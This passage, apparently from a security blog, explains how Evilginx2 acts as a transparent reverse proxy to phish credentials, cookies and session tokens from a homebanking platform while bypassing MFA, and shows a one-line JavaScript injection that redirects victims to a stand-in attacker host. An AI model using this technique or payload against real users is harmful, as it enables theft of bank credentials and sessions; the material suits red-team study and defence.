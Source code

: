 <img alt="" src="/assets/img/posts/2025/10/b74237468972cf0e58ca096d26e3d7ede89ddeeefb1fcc4db68dae1ab092cb59.png" />




### Phishing Credentials With Evilginx2


With Evilginx2, it's possible to perform advanced phishing attacks by acting as a transparent reverse proxy between the victim and a legitimate service. The framework captures session tokens, cookies, and credentials in real-time without ever needing to break encryption or decrypt HTTPS traffic. This is particularly effective against multi-factor authentication (MFA), as Evilginx proxies and relays the entire authenticated session.

In this scenario, we're targeting a homebanking platform. To improve reliability and success rate, we enhance Evilginx's capabilities by injecting a small JavaScript snippet into the proxied page. This JS payload executes in victim browser and **silently redirects to a cloned, attacker-controlled phishing page** hosted behind Evilginx.

```html
<script>window.location.href='https://bankonline.evil.local';</script>
```

The script is injected in HTTP communications of our victim. Before the redirect to the secure website, the attacker can inject the script above to force the browser navigate to an arbitrary website that will be used to capture (phish) victims passwords.
